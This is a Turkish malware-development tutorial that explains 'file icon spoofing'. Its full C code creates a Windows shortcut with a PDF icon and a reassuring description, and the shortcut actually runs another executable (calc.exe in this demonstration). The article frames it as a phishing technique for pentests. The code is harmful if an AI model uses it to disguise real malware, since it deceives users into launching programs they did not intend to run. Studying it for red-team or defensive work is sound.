


Merhabalar, bu yazıda File Icon Spoofing tekniğini inceleyeceğiz.

Kısaca tekniği özetlemek gerekirse oluşturulan malware'in programın icon'u değiştirilerek kullanıcıyı yanıltma tekniğidir. Bu sayede kullanıcı, ilgili malware'i zararsız bir dosya olarak görebilir. Malware için belirlediğiniz icon, bu konuda örnek olarak gösterileceği gibi bir PDF olabilir veya bir başka icon olabilir. Tekniğin, sosyal mühendislik saldırıları için oldukça etkili bir yöntem olabilir ve ayrıca Pentest ve Red Team çalışmalarında da kullanılışlı olabilir.

Konunun daha iyi anlaşılması için örnek senaryo üzerinden ilerleyelim, bir şirketin iç ağının güvenliğini test etmek amacıyla görevlendirilmiş bir pentester olduğunuzu düşünün. Şirket çalışanlarının kötü amaçlı dosyaları açma konusunda ne kadar dikkatli olduklarını test etmeniz gerekiyor. Bu bağlamda, kötü amaçlı yazılımınızı zararsız bir PDF dosyası olarak maskeleyerek, bir kimlik avı e-postası aracılığıyla veya paylaşılan bir klasöre yerleştirerek gönderebilirsiniz. Eğer bir çalışan bu dosyayı açarsa, dosya aslında zararlı yazılımı çalıştırarak sistemlerine erişim sağlar.

## Code

> Bu konu için kullandığım kod parçası, S12 H4CK'in PDF Icon File Spoofing konusundan alınmış ve tarafımca güncellenmiştir. Daha fazla detay için Referanslar kısmından makalesine göz atabilirsiniz.

Hazırlanan örnek kod parçasının github link'ine erişmek için [buraya](https://github.com/0xbekoo/maldev/tree/main/C/File-Icon-Spoofing) tıklayabilirsiniz.

```c
#include <stdio.h>
#include <strsafe.h>
#include <wchar.h>
#include <ShlObj.h>
#include <objbase.h>
#include <Windows.h>

BOOL CreateShortcut(const wchar_t* TargetPath, const wchar_t* ShortcutPath, const wchar_t* IconPath ) {
    HRESULT         HRES; 
    IShellLink*     PSL = NULL;
    IPersistFile*   PPF = NULL;

    CoInitialize(NULL); 
    
    HRES = CoCreateInstance(&CLSID_ShellLink, NULL, CLSCTX_INPROC_SERVER, &IID_IShellLink, (void**)&PSL);
    if (FAILED(HRES)) {
        wprintf(L"Failed to create IShellLink Object! Error Code:  0x%08X\n", HRES);
        return 1;
    }
    PSL->lpVtbl->SetPath(PSL, TargetPath);
    PSL->lpVtbl->SetIconLocation(PSL, IconPath, 0);
    PSL->lpVtbl->SetDescription(PSL, L"Very important file");

    HRES = PSL->lpVtbl->QueryInterface(PSL, &IID_IPersistFile, (void**)&PPF);
    if (FAILED(HRES)) {
        wprintf(L"Failed to interface! Error Code: 0x%08X\n", HRES);
        return 1;
    }
    HRES = PPF->lpVtbl->Save(PPF, ShortcutPath, TRUE);
    PPF->lpVtbl->Release(PPF);
    PSL->lpVtbl->Release(PSL);
    CoUninitialize();

    wprintf(L"Shortcut Created!\n");
    return 0;
}

int main()
{
    wchar_t TargetPath[MAX_PATH]    = L"C:\\Windows\\System32\\calc.exe";
    wchar_t IconPath[MAX_PATH]      = L"C:\\path\\to\\pdficon.ico";
    wchar_t ShortcutPath[MAX_PATH];
    HRESULT HRFolder;

    HRFolder = SHGetFolderPath(NULL, CSIDL_DESKTOPDIRECTORY, NULL, 0, ShortcutPath);
    if (FAILED(HRFolder)) {
        wprintf(L"Failed to get Desktop Path! Error Code: 0x%08X\n", HRFolder);
        return 1;
    }
    StringCchCatW(ShortcutPath, MAX_PATH, L"\\Projects.lnk");
    wprintf(L"Merged Path: %s\n", ShortcutPath);
    
    if (CreateShortcut(TargetPath, ShortcutPath, IconPath) > 0) {
        wprintf(L"Failed to create Shortcut!\n");
        return -1;
    }
    return 0;
}
```

Kodlara detaylıca göz atalım ve main içerisinden başlayalım:

```c
wchar_t TargetPath[MAX_PATH]    = L"C:\\Windows\\System32\\calc.exe";
wchar_t IconPath[MAX_PATH]      = L"C:\\path\\to\\pdficon.ico";
wchar_t ShortcutPath[MAX_PATH];
```

- **TargetPath:** Bu değişken, oluşturulacak kısayolun hedef dosyasının yolunu belirtir. Bu değişken bizim malware'in yolunu belirtir.
- **IconPath:** Bu değişken, oluşturulacak kısayolun icon'unun yolunu belirtir. 
- **ShortcutPath:** Bu değişken, oluşturulacak kısayolun yolunu belirtir. <br/> <br/>


```c
HRFolder = SHGetFolderPath(NULL, CSIDL_DESKTOPDIRECTORY, NULL, 0, ShortcutPath);
if (FAILED(HRFolder)) {
    wprintf(L"Failed to get Desktop Path! Error Code: 0x%08X\n", HRFolder);
    return 1;
}
StringCchCatW(ShortcutPath, MAX_PATH, L"\\Projects.lnk");
wprintf(L"Merged Path: %s\n", ShortcutPath);
```

Bu kısımda ise ilk olarak **SHGetFolderPath** fonksiyonu ile desktop dizinin tam yolunu alıyoruz. Ardından alınan dizin yoluna ise StringCchCatW aracılığıyla oluşturulacak kısayol ismi ile birleştiriyoruz. Bu sayede oluşturulacak kısayol'un tam yolunu elde etmiş oluyoruz. 

Bu kısayol ismini **Projects.lnk** olarak ayarladım. Siz dilerseniz bunu değiştirebilirsiniz. <br/> <br/>

```c
if (CreateShortcut(TargetPath, ShortcutPath, IconPath) > 0) {
    wprintf(L"Failed to create Shortcut!\n");
    return -1;
}
```

Bu kısımda ise oluşturduğumuz CreateShortcut fonksiyonunu çağırıyoruz ve if ile bir karşılaştırma yapıyoruz. Eğer CreateShortcut fonksiyonu 0'dan yüksek yani 1 değerini döndürürse hata mesajı ekrana bastırarak -1 ile programı return ettiriyoruz. <br/> <br/>

```c
CoInitialize(NULL); 
    
HRES = CoCreateInstance(&CLSID_ShellLink, NULL, CLSCTX_INPROC_SERVER, &IID_IShellLink, (void**)&PSL);
if (FAILED(HRES)) {
    wprintf(L"Failed to create IShellLink Object! Error Code:  0x%08X\n", HRES);
    return 1;
}
```

CreateShortcut fonksiyon içerisinde ise ilk olarak CoInitialize fonksiyonu ile COM bileşenlerini başlatıyoruz. Peki ama neden COM bileşenlerini başlatıyoruz? 

Çünkü IShellLink ve IPersistFile interface'leri COM bileşenleridir. Bu interface'ler bizim kısayol oluşturmak için kullanacağımız araçlardır. Dolayasıyla bunlara erişmemiz için COM bileşenlerini başlatmamız gerekmektedir. 

Ardından CoCreateInstance fonksiyonu ile IShellLink interface'ini oluşturuyoruz. Eğer bu işlem başarısız olursa hata mesajı bastırarak programı return ettiriyoruz. <br/> <br/>

```c
PSL->lpVtbl->SetPath(PSL, TargetPath);
PSL->lpVtbl->SetIconLocation(PSL, IconPath, 0);
PSL->lpVtbl->SetDescription(PSL, L"Very important file");

HRES = PSL->lpVtbl->QueryInterface(PSL, &IID_IPersistFile, (void**)&PPF);
if (FAILED(HRES)) {
    wprintf(L"Failed to interface! Error Code: 0x%08X\n", HRES);
    return 1;
}
```

Bu kod bloğunda ise oluşturduğumuz IShellLink interface'ine **Target Path**, **Icon Path** ve **Description** ekliyoruz. Bu adımlar, oluşturacağımız kısayolun özelliklerini belirtir. 

Ardından QueryInterface fonksiyonu ile IPersistFile interface'ine erişim sağlıyoruz. Eğer bu işlem başarısız olursa hata mesajı bastırarak programı return ettiriyoruz. <br/> <br/>

```c
HRES = PPF->lpVtbl->Save(PPF, ShortcutPath, TRUE);
PPF->lpVtbl->Release(PPF);
PSL->lpVtbl->Release(PSL);
CoUninitialize();

wprintf(L"Shortcut Created!\n");
```

Son olarak ise Save fonksiyonu ile oluşturduğumuz kısayolu, main içerisinde oluşturduğumuz tam yoluna kaydediyoruz. Ardından IPersistFile ve IShellLink interface'lerini serbest bırakıyoruz. CoUninitialize fonksiyonu ile COM bileşenlerini sonlandırıyoruz. Son olarak kısayolun oluşturulduğuna dair bir mesaj bastırıyoruz. <br/> <br/>

## Programı Çalıştırma

Programı çalıştırdığımızda ise masaüstünde kısayolumuz aşağıdaki gibi gözükecektir:



Kısayolumuz aslında pdf gibi gözükse de özelliklerine göz attığımızda aslında farklı bir program çalıştıracaktır:



Özelliklerine göz attığımızda ise aslında bu kısayolun **calc.exe** programını çalıştırdığını görmekteyiz.

## Sonuç

Bu konumda, icon file spoofing tekniğini ele aldık. Unutmayın ki bu teknik, Pentest ve Red Team çalışmalarında da kullanılışlı olabilir. 

Umarım faydalı olmuştur, teşekkürler! 🚀

## References 

- [S12 H4CK - PDF Icon File Spoofing](https://medium.com/@s12deff/pdf-icon-file-spoofing-dbfd76476b82)
